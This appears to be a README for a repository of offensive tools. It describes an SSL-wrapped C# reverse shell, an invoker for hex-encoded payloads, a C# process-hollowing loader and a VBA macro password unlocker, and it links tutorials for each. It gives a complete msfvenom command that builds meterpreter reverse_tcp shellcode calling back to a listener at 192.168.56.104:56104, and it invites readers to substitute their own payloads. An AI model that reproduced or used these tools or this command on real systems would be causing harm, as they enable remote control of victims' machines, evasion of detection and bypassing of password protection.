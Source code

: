 # Rando
//SslReverseLib is a copy of Jamie Bowman's reverse shell implementation (Ref #1).
The only change I made was wrapping it inside of Microsoft's official SSLSTREAM class (Ref #2).
Programmer needs only to provide a base64 encoded PEM certificate (Ref #3) to get it working
1. https://www.mrjamiebowman.com/hacking/c-sharp-reverse-shell/
2. https://docs.microsoft.com/en-us/dotnet/api/system.net.security.sslstream
3. https://nmap.org/ncat/guide/ncat-ssl.html

//HexecutableInvoker executes any hexecutable payload provided. 
It was inspired by a SANS article on malicious JavaScript (Ref #1) as well Reversing Hub's exquisite class on hexecutable malware. Reccomend highly!!! (Ref #2).
The programmer needs only to replace the namespace & class with that of their payload & then provide the necessary arguments. Convert your payload to .hex format using the instructions provided in ReversingHub's Udemy course linked below.
1. https://isc.sans.edu/forums/diary/Malicious+Script+With+Multiple+Payloads/25090/
2. https://www.udemy.com/course/reverse-engineering-deep-dive/

//C# Process Hollowing
Gmgorelik's C# Process Hollowing implementation (Ref #1). The shell code being executed was generated using the following msfvenom command:
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.104 LPORT=56104 -b "\x00" -f cs HollowP.xs
It calls out to a meterpreter listener on 192[.]168[.]56[.]104:56104. You may modify the above command to generate your own payload all the same. This program is mostly commodity & highly detectable.
1. https://gist.github.com/smgorelik/9a80565d44178771abf1e4da4e2a0e75
2. https://www.offensive-security.com/metasploit-unleashed/msfvenom/

//VBA Macro Hacker
Originally derived from the below StackOverflow page (Ref #1) this .csv contains a function to unlock any VBA macro past password protection.
Open the MacroHacker.csv along side your favorite password protected macro & then execute the unlock funtion.
This should make the previously locked macro viewable in Excel's VBA editor.
1. https://stackoverflow.com/questions/1026483/is-there-a-way-to-crack-the-password-on-an-excel-vba-project
